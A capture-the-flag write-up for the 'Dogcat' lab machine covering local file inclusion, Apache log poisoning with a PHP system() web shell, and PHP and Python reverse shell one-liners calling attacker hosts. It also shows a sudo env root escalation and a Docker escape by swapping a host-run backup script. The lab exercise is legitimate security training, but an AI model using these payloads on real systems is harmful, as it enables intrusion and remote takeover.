

# Dogcat

## Flag #1

### The website

First, I accessed the site that is on the box with my browser and was greeted with a page with 2 buttons. Upon pressing the button, we get a random image of a dog or a cat, depending on which button we have pressed.

If we look closely at the URL when clicking a button, we can see that there is a url query parameter `view=[dog|cat]`. When changing the `view` query parameter to something else than `dog` or `cat`, we get an error which tells us that only two of these parameter values are allowed.

But if we include the string `dog` or `cat` to our initial parameter value, for example `view=ilikedogs`, we get the following error:


This error can mean that we are probably dealing with a Local File Inclusion vulenrability. The next thing I did is to try to access `/etc/passwd`  to see if I can access files on the filesystem:


As we can see, the application appends the file extension `.php` to our string in the `include` function. We can try to bypass that using the NULL byte injection technique, where we just append the byte `0x00` to the end of our query parameter value, which using the browser is percent-encoded (`%00`), assuming that the `X-Powered-By` header does not show the real version of PHP (Null-Byte Injection was patched in PHP 5.3.4):


Unfortunately, we do not get our `/etc/passwd` content, which means that we need to find another way to gain any access. The next thing I tried is to use the `php://filter` technique where we can read files encoded for us in base64:


This gave me the content of index.php, which I can decode in `cyberchef` to gain further information about how the exploited application works. This is the source code of index.php (The base64 decoded result):

```php
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

After close inpection of the code, I noticed that we are able to also control the file extension using the `ext` query parameter. We now know we can access files on the filesystem by using both `view` and `ext` parameters together:


Now that we are able to access files, we need some way to exploit this vulnerability further to gain RCE. I tried the `php://input` method, but I quickly found out that this method won't work, since we have to have `dog` or `cat` included in our payload in some way. I also found out that no cookies are given to the user, so we cannot gain RCE through cookies. 

I finally tried gaining RCE via the apache2 `access.log` file, which logs requests to the server, as well as the **user agent**. I have made the following request to the server to poison the apache logs: `curl -A $'<? system($_GET[\'cmd\']); ?>' IP_ADDR`. The `-A` parameter in our `curl` command means that we are providing our own user-agent, which in our case is PHP code.

The last thing to do is to include the `access.log` file and leverage our new query parameter, which is `cmd`:


And using our parameter:


As we can see, we are able to execute remote commands using a Local File Inclusion vulnerability (RCE via LFI Log Poisoning). We can now read our first flag by providing `cat flag.php` to our `cmd` query parameter.

## Flag #2

### The system

Time to uprade our RCE to a reverse shell! Since we know that the machine uses `php`, we can get a reverse shell from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). 

I have created a listener using this command: `ncat -lvnp 4444` and used the following payload using the `cmd` query parameter: `php%20-r%20%27%24sock%3Dfsockopen%28%22<ATTACKER_IP>%22%2C<ATTACKER_PORT>%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27`.

This is how it went:



I have successfully gained a reverse shell. I quickly found the next flag in directory `/var/www/`.

## Flag #3

### PrivEsc

I downloaded `linpeas.sh` from my local computer to the remote machine and ran it, saving the output in a file in `/tmp`. After some time, the `linpeas` script ended and by inspecting the results, I have found out that the `/bin/env` binary had a setuid bit enabled. If we also check our sudo privileges using the command `sudo -l`, we can also notice that we don't even need a password to execute `env`. This flaw easily enables us to become root by executing a shell with `env` by using the following command: `sudo env sh`.


We are successfully root on the machine! We can find the flag in `/root`.

## Flag #4

### Docker container escape via physical volume script

One may have noticed that we do not have certain commands on the machine that would give us more useful information, like `ip` or `netstat`. We can also notice a file called `.dockerenv` in the root directory, which means that likely, we are insid a docker container. If we execute `mount` as root, we get the following data:


One particular line stands out, which is `/dev/xvda2 on /opt/backups`. If we `cd /opt/backups` we get this:


If we extract `backup.tar`, we get a couple of files:


We can see how the application was built. If we look closely at the `backup.tar` file, we notice that every minute it updates. We also have the `backup.sh` script which creates the `backup.tar` file, but it is ran from the host machine. We can try to replace the `backup.sh` script with our own script. I used two seperate scripts, since I noticed that `python` did not exist on the host machine:

```bash
#!/bin/bash

FILE='/root/container/backup/info.txt'

echo `env` > $FILE
echo Python: `which python` >> $FILE
echo Python3 `which python3` >> $FILE
echo Nc: `which nc` >> $FILE
echo Ncat: `which ncat` >> $FILE
echo Node: `which node` >> $FILE
echo gcc `which gcc` >> $FILE
```

This script showed me the following output:


We can see that we have `python3` that we can use on the machine. This is the second script I used as the replacement of `backup.sh`:

```bash
#!/bin/bash

python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.13.8",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

```

I have set up a listener using `nc -lvnp 9999` and waited... until:


We get our fabulous shell! We have successfully escaped the container using the physical volume and a vulnerable script that was executed by the host machine.


And the flag was also found at `/root`.